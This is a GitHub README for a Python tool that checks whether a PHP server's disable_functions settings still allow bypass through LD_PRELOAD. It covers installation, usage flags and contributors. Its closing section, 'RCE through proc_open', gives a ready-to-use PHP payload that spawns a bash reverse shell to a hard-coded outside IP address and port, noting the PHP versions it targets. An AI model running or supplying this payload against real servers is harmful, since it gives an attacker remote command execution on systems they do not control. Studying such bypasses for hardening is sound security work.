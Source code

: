 <p align="center"><img src="images/banner.png" /></p>

# Dfunc-Bypasser
This is a tool that can be used by developers to check if exploitation using LD_PRELOAD is still possible given the current disable_functions in the php.ini file and taking into consideration the PHP modules installed on the server.

## Installation
`git clone https://github.com/UsifAraby/dfunc-bypasser-python3.git`

## Usage
There are two options to input the disable_functions list:
1. For help on the parameters:
`python3 dfunc-bypasser-python3.py -h`
2. Provide the phpinfo url:
`python3 dfunc-bypasser-python3.py --url https://example.com/phpinfo.php`
3. Provide the local phpinfo file:
`python3 dfunc-bypasser-python3.py --file dir/phpinfo`
4. Provide an additional header:
`python3 dfunc-bypasser-python3.py -H "Special-Header: dev"`

## Contributers
1. S Ashwin Shenoi
    * Github: [ashwinshenoi99](https://github.com/ashwinshenoi99)
    * Twitter: [c3rb3ru5](https://twitter.com/__c3rb3ru5__)
2. Tarunkant Gupta
    * Github: [tarunkant](https://github.com/tarunkant/)
    * Twitter: [TarunkantG](https://twitter.com/TarunkantG)

from team [bi0s](https://bi0s.in)

## Screenshots

<img width="1112" height="593" alt="Screenshot 2025-09-22 010101" src="https://github.com/user-attachments/assets/3055c74d-f374-471a-b66a-b1a83c05c591" />

## RCE through `proc_open` :

```
<?php
// Vulnerable PHP versions: 8.1.* before 8.1.29, 8.2.* before 8.2.20, 8.3.* before 8.3.8

$command = "bash -c 'bash -i >& /dev/tcp/10.10.14.4/80 0>&1'";
$descriptors = [
  0 => ['pipe','r'],
  1 => ['pipe','w'],
  2 => ['pipe','w']
];
$process = proc_open($command, $descriptors, $pipes);
if (is_resource($process)) {
    echo stream_get_contents($pipes[1]);
    proc_close($process);
} else {
    echo "proc_open failed\n";
}

?>
```
